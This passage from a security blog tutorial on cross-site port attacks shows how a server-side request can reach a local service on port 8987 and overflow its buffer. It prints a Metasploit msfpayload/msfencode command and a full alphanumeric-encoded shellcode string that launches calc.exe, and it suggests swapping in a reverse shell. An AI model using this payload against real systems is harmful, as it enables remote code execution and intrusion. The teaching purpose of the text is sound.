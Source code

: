 If you notice carefully, we do not need to be concerned about most of the structure of the backend request as we control the most important part of it, the resource specification. 

For example, in the following screengrab you can see that a program listening on port 8987 on the local server accepts input and prints `"Hello GET /test.txt HTTP/1.1, The Server Time is: [server time]"`. We can see that the `"GET /test.txt HTTP/1.1"` is sent by the web server to the program as part of its request creation process. If the program is vulnerable to a buffer overflow, as user input is being used to create the output, the attacker could pass an overly long string and crash the program or gain control of the flow of program execution.

- **Request: http://127.0.0.1:8987/test.txt**

![](/img/cross-site-port-attacks---xspa---part-2/8.png)

- **Request: http://127.0.0.1:8987/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA**

![](/img/cross-site-port-attacks---xspa---part-2/9.png)

![](/img/cross-site-port-attacks---xspa---part-2/10.png)

On testing the vulnerable copy on a local installation, we can see that EIP can be controlled and ESP has our data. Calculating the correct offset for EIP and building the exploit is beyond this blog post, however, the folks at Corelan have a brilliant series of tutorials on building exploits for vulnerable programs. One important point to be noted however is that HTTP being a text based protocol may not handle non-printable unicode characters (found in exploit code) properly. In such a situation, we can use msfencode (part of metasploit framework) to encode the exploit payload to alpha numeric using the following command:

```
msfpayload windows/exec CMD=calc.exe R | msfencode BufferRegister=ESP -e x86/alpha_mixed
```

The result? The following alphanumeric text (along with padding AAAAAAs, the static JMP ESP address and the shellcode) that can now be sent via the web application to the vulnerable program:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@'ßwTYIIIIIIIIIIIIIIII7QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJIIlhhmYUPWpWp3Pk9he01xRSTnkpRfPlKPRtLLKPR24NkbR7XDOMgszuvVQ9oeaKpllgL3QQl5RFLWPiQJodM31JgKRHpaBPWNk3bvpLKsrWLwqZpLK1P0xMU9PSDCz7qZpf0NkQX6xnk2xUps1n3xcgL3yNkednkVayF4qKO5aKpnLIQJo4M31O76XIpbUzTdC3MHxGKamvDbU8bchLKShEtgqhSQvLKtLRkNkShuLgqZslK5TlKVaZpoy3tGTWTqKqKsQ0YSjRqyoKP2xCoSjnkwb8kLFqM0jFaNmLElyc05PC0pPsX6QlK0oOwkOyEOKhph5920VBHY6MEoMOmKON5Uls6SLUZMPykip2UfeoK3wfs422OBJs0Sc9oZuCSPaPl3SC0AA
```

Sucessful exploitation leads to calculator executing on the server. The shellcode can be replaced with other payloads as well (reverse shell perhaps?)

![](/img/cross-site-port-attacks---xspa---part-2/11.png)

### Attacks - Fingerprinting Intranet Web Applications

Identifying internal applications via XSPA would be one of the first steps an attacker would take to get into the network from outside. Fingerprinting the type and version, if its a publicly available framework, blogging platform, application module or simply a customized public CMS, is essential in identifying vulnerabilities that can then be exploited to gain access. 
